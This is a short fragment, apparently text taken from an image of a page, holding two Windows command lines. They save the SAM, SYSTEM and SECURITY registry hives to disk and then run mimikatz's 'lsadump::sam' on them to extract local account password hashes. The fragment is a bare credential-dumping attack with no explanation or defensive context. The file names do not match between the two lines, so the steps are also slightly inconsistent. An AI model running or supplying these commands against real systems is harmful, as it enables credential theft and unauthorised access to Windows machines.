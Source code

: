 	>reg save hklm\sam c:\sam.hive &reg save hklm\system c:\system.hive &reg save hklm\security c:\security.hive
	>mimikatz.exe "lsadump::sam /system:sys.hive /sam:sam.hive" exit